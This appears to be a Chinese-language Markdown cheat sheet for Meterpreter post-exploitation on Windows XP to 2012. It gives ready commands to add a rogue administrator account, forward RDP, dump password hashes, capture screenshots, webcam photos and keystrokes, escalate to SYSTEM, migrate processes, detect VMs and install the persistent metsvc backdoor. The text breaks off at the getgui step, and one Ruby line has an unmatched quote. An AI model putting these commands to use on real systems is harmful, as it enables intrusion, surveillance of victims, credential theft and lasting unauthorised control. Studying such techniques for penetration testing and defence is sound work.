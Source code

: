 针对win XP及win2003只需要第3条命令
针对win 7需要第1，2条命令
针对win 2012需要3条命令

1. 添加账户进管理组

   ```
   net user [username] [password] /add
   net localgroup Administrators [username] /add
   ```

2. 端口转发如果3389端口只限内网访问，可以使用portfwd将端口转发到本地连接

   ```
   portfwd add -l 4444 -p 3389 -r XXX.XXX.XXX.XXX
   rdesktop -u root -p toor 127.0.0.1:4444
   ```

3. meterpreter自带的多功能shell

   - hashdump:获取用户密码哈希值，可以用ophcrack等彩虹表工具进行破解明文
   - screenshot:获取屏幕截图
   - webcam_snap:调取对方摄像头拍照
   - keyscan_start,keyscan_dump:记录键盘动作
   - ps:查看当前运行进程
   - sysinfo:查看系统信息
   - getsystem:提权

4. 维持控制

   - migrate:将meterpreter会话移至另一个进程内存空间（migrate pid）配合ps使用

   - irb:与ruby终端交互，调用meterpreter封装函数，可以添加Railgun组件直接交互本地的Windows API,阻止目标主机进入睡眠状态

     ```
     irb client.core.use("railgun) client.railgun.kernel32.SetThreadExecutionState("ES_CONTINUOUS|ES_SYSTEM_REQUIRED")
     ```

   - background:隐藏在后台方便msf终端进行其他操作，session查看对话id

   - session -i X:使用已经成功获取的对话

5. 植入后门

   - 测试是否虚拟机：

     ```
     run post/windows/gather/checkvm
     ```

   - 以系统服务形式安装：在目标主机的31337端口开启监听，使用metsvc.exe安装metsvc-server.exe服务，运行时加载

     ```
     metsrv.dll
     run metsvc
     ```

   - getgui开启远程桌面：
